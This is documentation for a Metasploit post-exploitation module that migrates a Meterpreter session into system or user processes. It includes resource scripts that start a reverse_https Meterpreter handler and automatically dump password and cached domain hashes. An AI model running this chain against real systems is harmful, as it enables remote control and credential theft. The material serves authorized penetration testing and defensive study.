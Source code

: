 ## Overview
This module evaluates a Windows Meterpreter session's privileges and migrates the session accordingly. The purpose of this module is to enable the scripting of migrations post exploitation, which allows you to immediately run post modules that require system rights.  

You can use this module in situations where incoming sessions may have mixed rights levels and the session needs to be migrated appropriately for additional post modules to run. It is also useful in situations where migration needs to occur within a short period after the session is created. 

The types of migrations that occur are described below: 

- A session with admin rights is migrated to a system owned process. 
- A session with user rights is migrated to a user level process. If a specified user level process is not running, the module will spawn it and then migrate the session. 

This module is a nice addition to the beginning of an autorun script for post-Meterpreter session creation. An example of an autorun script is provided below.

## Options
- **ANAME** - This option allows you to specify a system level process that the module attempts to migrate to first if the session has admin rights. 
- **NAME** - This option allows you to specify the user level process that the module attempts to migrate to first if the session has user rights or if admin migration fails through all of the default processes.  
- **KILL** - This option allows you to kill the original process after a successful migration. The default value is FALSE.
- **NOFAIL** - This option allows you to specify whether or not the module will migrate the session into a user level process if admin level migration fails. If TRUE, this may downgrade priviliged shells. The default value is FALSE.

## Module Process
Here is the process that the module follows:

- Retrieves the privilege information for the current session.
- If the session has admin rights, it attempts to migrate to a system owned process in the following order:
    - ANAME (Module option, if specified)
    - services.exe
    - wininit.exe
    - svchost.exe
    - lsm.exe
    - lsass.exe
    - winlogon.exe
- The module will not migrate if the session has System rights and is already in one of the above target processes.
- If it is unable to migrate to one of these processes, it drops to user level migration if NOFAIL is TRUE.
- If the session has user rights, it attempts to migrate to a user owned process in the following order:  
    - NAME (Module option, if specified)
    - explorer.exe
    - notepad.exe
- If it cannot migrate, it attempts to spawn the process and migrates to the newly spawned process.

## Using This Module with AutoRun Scripts
The use of autorun scripts with this module is an easy way to automate post-exploitation for incoming Meterpreter sessions. The following section describes the basic setup information and provides a script example to show how this module comes in handy.

### Basic Setup Information
Resource file (.rc) scripts can be used to automate many processes in Metasploit, particularly starting up the  console and running scripts once a session is created.

Startup scripts are executed using the following example where startup.rc is the startup script, and it is located in the user's home directory. Startup scripts are executed once the Metasploit Framework is loaded.

```
./msfconsole -r /home/user/startup.rc
```

The following is an example startup script that fires up a Meterpreter listener and specifies an autorun script that will be executed when a new session is created. In this example auto.rc is the script to be run after session creation.

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.1.101
set LPORT 13002
set ExitOnSession false
set AutoRunScript multi_console_command -r /home/user/auto.rc
exploit -j
```

### AutoRun Script Example
This example is a script that will use priv_migrate to migrate the session based on session rights. After migration, it executes modules that will retrieve user password hashes and cached domain hashes. Each one of the hash dump modules requires system rights to be successful. Priv_migrate makes it possible to execute these modules in an autorun script. For sessions with user rights, the hash dump modules will fail, but that is unlikely to impact the state of the session.

```
run post/windows/manage/priv_migrate
run post/windows/gather/hashdump
run post/windows/gather/cachedump
```
